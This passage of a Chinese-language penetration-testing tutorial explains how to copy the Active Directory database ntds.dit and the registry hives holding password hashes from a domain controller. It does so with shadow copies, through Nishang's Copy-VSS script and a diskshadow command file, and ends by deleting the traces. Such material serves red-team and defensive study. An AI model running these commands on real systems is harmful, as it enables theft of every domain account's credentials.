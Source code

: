 此时，`ntds.dit`将被会保存在`C:\test\Active Directory`下，`SYSTEM`和`SECURITY`会被保存在`C:\test\registry`下。

将上面的文件拖回后本地后就可以删除test文件夹了：

```powershell
rmdir /s/q test
```

在Nishang中有一个拷贝的脚本：

```powershell
Import-Module .\Copy-VSS.ps1
Copy-VSS
```

这会把SAM、SYSTEM、ntds.dit复制到当前目录下。

Nishang的项目地址：[samratashok/nishang: Nishang - Offensive PowerShell for red team, penetration testing and offensive security. (github.com)](https://github.com/samratashok/nishang)

#### 使用diskshadow提取

该工具的代码由微软签名，并且在Win Server 2008、2012、2016都默认包含，所以也可以用于操作卷影拷贝。

查看diskshadow的帮助：

```powershell
diskshadow.exe /?
```

该工具也可以用于执行命令：

```powershell
diskshadow /s C:\command.txt
```

该文件里的内容就是命令，格式如下：

```txt
exec C:\windows\System32\calc.exe
```

用于导出`ntds.dit`时，将如下命令写入一个文本文件：

```powershell
set context persistent nowriters
add volume C: alias someAlias
create
expose %someAlias% k:
exec "cmd.exe" /c copy k:\windows\ntds\ntds.dit c:\ntds.dit
delete shadows all
list shadows all
reset
exit
```

然后加载这个文本文件：

```powershell
diskshadow /s c:\command.txt
```
